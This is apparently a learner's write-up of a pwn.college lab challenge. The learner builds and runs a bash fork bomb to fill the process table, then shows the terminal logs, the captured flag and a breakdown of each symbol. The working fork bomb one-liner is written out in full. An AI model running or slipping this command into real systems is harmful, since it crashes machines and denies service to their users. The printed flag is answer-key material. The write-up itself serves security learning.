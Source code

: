 
# 1. The Fork Bomb

This challenge prompted me to create a fork bomb to exhaust system processes.

## My Solve

**Flag:** `pwn.college{c1R-ll7QCYSyt5FD66tvoj5EWdh.0VMyEzNxwCM2EDNzEzW}`

This required two terminals, which I set up using `screen`. In one window, I started the `/challenge/check` program. In the other, I created a fork bomb script named `fork`, made it executable, and ran it. The script rapidly created new processes until the system was saturated, which was detected by the checker, and it printed the flag.

Content of `fork`:

```
#!/bin/bash
:(){ :|:& };:
```

Terminal 1 (Checker):

```
hacker@destruction~the-fork-bomb:~$ /challenge/check
It looks like the system can still spawn processes. We'll check again in 5 seconds...
It looks like the system can still spawn processes. We'll check again in 5 seconds...
You successfully saturated the process table.  Here is your hard-earned flag:
pwn.college{c1R-ll7QCYSyt5FD66tvoj5EWdh.0VMyEzNxwCM2EDNzEzW}
```

Terminal 2 (Attack):
```
hacker@destruction~the-fork-bomb:~$ nano fork
hacker@destruction~the-fork-bomb:~$ chmod +x fork
hacker@destruction~the-fork-bomb:~$ ./fork
```

## What I Learned

A fork bomb is a denial-of-service attack. Its a piece of code that causes a process to replicate, and each time, the new instance of the program further depletes available resources. When its run a computer, it just crashes.

Breakdown of the command:

```
Symbol  Meaning             Function
:       Function name
()      Defines the function
{ ... } Function body
|       Pipe
&       Run in background
;       Command separator
:       Call the function once to start the bomb
```

## References

The problem statement provided was the reference used.

```
As you learned in the Processes and Jobs module, whenever you start a program the Linux operating system creates a new process.
If you create processes faster than the kernel can handle, the process table fills up and everything grinds to a halt.
...
This challenge contains a /challenge/check that'll try to determine if your fork bomb is working (e.g., if it can't launch new processes) and give you the flag if so.
Make sure to launch it (in a different terminal) before launching your attack; otherwise you won't be able to launch it!
```
